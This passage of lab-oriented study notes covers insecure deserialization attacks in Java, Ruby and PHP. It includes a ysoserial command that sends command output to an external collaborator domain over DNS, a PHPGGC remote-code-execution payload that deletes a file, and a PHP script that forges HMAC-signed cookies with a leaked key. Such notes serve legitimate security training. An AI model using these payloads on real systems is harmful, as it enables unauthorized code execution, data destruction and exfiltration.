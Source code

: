    * ./java -jar /root/Tools/ysoserial-all.jar CommonsCollections4 "nslookup \`echo 'hello'|base64\`.r29q0ep.oastify.com" | base64 -w 0 > ../../test1-1.txt
 

<br><br>

### __Ruby Deserialization with Pre-built Gadget – Ruby__

* Enumerate the application and identify if it is using a serialized Object in any of the HTTP requests.

* For Ruby serialized Objects, we can use a pre-built gadget to generate a malicious Ruby serialized Object and exploit the application:

    * https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html

    * https://www.onlinegdb.com/online_ruby_compiler

<br><br>

### __PHP Deserialization with Pre-built Gadget - PHP__

* Enumerate the application and identify if there are any dependencies that the application is using.

* For example, if the application depends on the Symfony framework, we can use a tool to generate a malicious serialized Object.

    * Tool:  PHPGGC

    * Payload:   ./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64

* If the serialized Object is being signed using an SHA-1 HMAC hash, identify if the application is disclosing the secret key in any of the configuration files or responses.  The “/cgi-bin/phpinfo.php” file is a good place to search for.

* The following script can be used to then sign the serialized Object using the secret key:

```php
<?php
$object = "OBJECT-GENERATED-BY-PHPGGC";
$secretKey = "LEAKED-SECRET-KEY-FROM-PHPINFO.PHP";
$cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');
echo $cookie;
?>
```

<br><br>

### __Developing Custom Gadget – Java Deserialization__

* Enumerate the application and identify if there are any leaked Java source code files.  Then analyze the code to see if any of the fields are being passed to a dangerous method/sink.

* Manually create the Java Class and serialized the Object with a malicious payload and inject it to the application.

* Portswigger provides a generic program for serializing Java Objects:  https://github.com/PortSwigger/serialization-examples/tree/master/java/generic
